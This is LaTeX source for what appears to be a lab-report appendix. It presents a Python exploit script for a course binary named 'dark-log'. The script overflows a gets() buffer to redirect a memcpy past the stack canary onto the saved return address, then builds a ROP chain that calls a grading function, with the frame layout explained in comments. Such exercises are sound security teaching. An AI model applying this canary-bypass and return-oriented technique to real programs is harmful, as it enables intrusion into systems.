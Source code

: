\documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\subsection{任务四的脚本 \texorpdfstring{\code{payload\_canary.py}}{payload\_canary.py}}
\label{app:four}
\begin{lstlisting}
#!/usr/bin/env python3
"""Bypass dark-log's canary by steering the in-frame memcpy destination."""
import struct
import sys


def address(value):
    return struct.pack("<Q", value)


pop_rdi_ret = 0x4018A3   # pop rdi; ret  (inside __libc_csu_init)
ret = 0x4018A4           # ret         (restores the SysV stack alignment)
grade_eval = 0x401677

# dark-log's frame layout:
#   f.expression  rbp-0x120   <- gets() destination
#   f.logMsg      rbp-0xa0
#   f.len         rbp-0x20    <- overwritten by the gets() overflow
#   f.pad         rbp-0x18
#   canary        rbp-0x8
#   saved rbp     rbp
#   saved rip     rbp+8
# The copy is memcpy(f.logMsg + f.len, f.expression, 128), i.e. its
# destination is rbp-0xa0 + f.len.  Sending f.len = 0xa8 makes that
# destination exactly rbp+8, so the 128-byte copy starts at the saved return
# address and never reaches the canary at rbp-0x8.  The canary check therefore
# still passes, and the first 8 bytes of f.expression become the new rip.
len_offset = 0xA8        # (rbp+8) - (rbp-0xa0)
chain = [pop_rdi_ret, 4, ret, grade_eval]
block = b"".join(address(value) for value in chain)
block += b"C" * (0x80 - len(block))

payload = block + b"D" * (0x100 - 0x80) + struct.pack("<I", len_offset)
assert len(payload) == 0x104
assert b"\n" not in payload
sys.stdout.buffer.write(payload)
\end{lstlisting}
\end{document}
